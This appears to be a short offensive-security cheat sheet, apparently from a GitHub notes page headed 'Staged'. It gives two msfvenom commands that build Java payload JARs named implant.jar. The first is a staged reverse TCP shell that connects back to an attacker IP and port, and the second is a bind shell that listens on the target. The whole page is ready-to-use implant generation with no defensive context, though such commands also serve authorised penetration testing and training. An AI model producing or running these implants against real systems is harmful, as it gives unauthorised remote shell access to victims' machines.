 # Staged

## 01 - Reverse Shell

```
$ msfvenom -p java/shell/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

## 02 - Bind Shell

```
$ msfvenom -p java/shell/bind_tcp lport=<PORT> [RHOST=<target_IP>] -f raw -o implant.jar
```